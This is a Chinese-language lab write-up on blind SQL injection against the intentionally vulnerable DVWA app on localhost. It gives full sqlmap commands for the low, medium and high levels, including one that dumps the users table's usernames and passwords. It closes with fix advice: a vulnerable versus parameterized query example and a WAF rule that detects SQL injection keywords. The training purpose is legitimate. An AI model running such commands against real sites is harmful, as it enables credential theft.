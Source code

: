 python   sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit"   --cookie "PHPSESSID=siggre297upbpegrm1tfnl52ft; security=low " -D   dvwa -T users -C " user,password" --dump
#使用dump强制把查询到的数据返回到终端，让我们自己可以在终端看见\
[图片]
## SQL Injection(Blind)-medium
相比于 low 级别，需要找到请求体里面发送的内容，包含在命令行中\
使用下拉框，没有回显，url 里面没有附带数据是使用 post 方法\
[图片]\
sqlmap 分析\
python   sqlmap.py -u"http://localhost/dvwa/vulnerabilities/sqli_blind/#"   --cookie "PHPSESSID=siggre297upbpegrm1tfnl52ft; security=medium"
[图片]\
post 方法的数据是包含在请求体里面的，我们要把数据从数据包里取出来，加在命令行中。\
构建新的命令行：
python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/# "   --data "id=1&Submit=Submit" --cookie "PHPSESSID=3gbc1h6ma83bbe4fv38j3lgsm5; security=medium"
可以看到存在基于布尔类型的盲注和基于时间的盲注\
[图片]\
之后查找数据即可，一定要加上 data：\
[图片]
## SQL Injection(high)
通过 burpsuite 抓包，我们可以看到原页面跳转到另一个页面是使用 get 方法，跳转页面使用 post 获得参数\
[图片]\
我们开始构造命令\
#联合查询命令,-u   "[数据提交页面url]" --data   "[request]"  --second-u   "[数据显示页面url]" --cookie="[站点cookie]" 
python sqlmap.py -u   "http://localhost/dvwa/vulnerabilities/sqli_blind/cookie-input.php#"   --data "id=1&Submit=Submit"    --second-u   "http://localhost/dvwa/vulnerabilities/sqli_blind/" --cookie   "id=1; PHPSESSID=3gbc1h6ma83bbe4fv38j3lgsm5; security=high"
这个花费的时间可能比较久\
[图片]\
拿到注入点就可以进行数据的输出，之后就是和之前是一样的步骤。
# 修复建议：
1.参数化查询：\
将用户输入和sql语句分离，避免拼接字符串\
#错误方式（拼接字符串）  \
cursor.execute("SELECT * FROM users WHERE id = " + user_input)  \
#正确方式（参数化查询）  \
cursor.execute("SELECT * FROM users WHERE id = ?", (user_input,))\
2.WAF规则配置\
过滤恶意字符：在WAF中设置规则，拦截包含sql关键字的请求\
SecRule ARGS "@rx (?i)(union\s+select|sleep\(|-- |\/\*)" \
"id:1001,deny,msg:'SQL Injection Attempt'"


```python

```

